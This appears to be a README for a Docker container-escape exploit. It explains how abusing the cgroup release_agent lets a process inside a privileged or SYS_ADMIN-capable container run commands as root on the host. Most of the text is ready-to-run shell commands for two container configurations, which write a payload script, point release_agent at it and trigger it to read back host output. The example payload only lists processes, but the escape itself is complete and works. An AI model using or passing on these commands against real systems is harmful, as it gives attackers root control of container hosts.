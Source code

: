 How does the exploit work?
---

There are two close vulnerabilities. Both allow user inside of privileged container gain root access to host using custom cgroups and their _release\_agent_ property: when agent is released, payload can be executed on host. Also, that custom cgroup is mounted to our container, which allows us to read output and use any commands on host.

[Video 1](https://youtu.be/fPnXoPOcvR4)

[Video 2](https://youtu.be/l-A8J2jCNRU)


How do I run it?
---

For _--privileged_ container (on Kali exmple, works on all three VM's):

1. On host run:

```bash
docker run --rm -it --privileged kalilinux/kali-rolling bash

```

2. After console appeared, run:

```bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`   # get docker container dir name;

mkdir -p $d/w;echo 1 >$d/w/notify_on_release    # create /w dir, and put "1" flag into notify_on_release to activate it

t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps >'"$t/o" >/c;    # configure release agent and payload

chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o   # execute command that will instantly trigger our payload and read output.

```

For _--cap-add=SYS_ADMIN --security-opt apparmor=unconfined_ container:

1. On host run: 

```bash
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

```

2. At console run:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x # mounting cgroup to /tmp/cgrp, creating group "x"
 
echo 1 > /tmp/cgrp/x/notify_on_release # Enabling notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab` # Getting host path to container internals
echo "$host_path/cmd" > /tmp/cgrp/release_agent # Making release agent run our payload on release
 
echo '#!/bin/sh' > /cmd # Crafting our payload; "ps aux" as example.
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs" # Running process that will instantly trigger our release agent
```
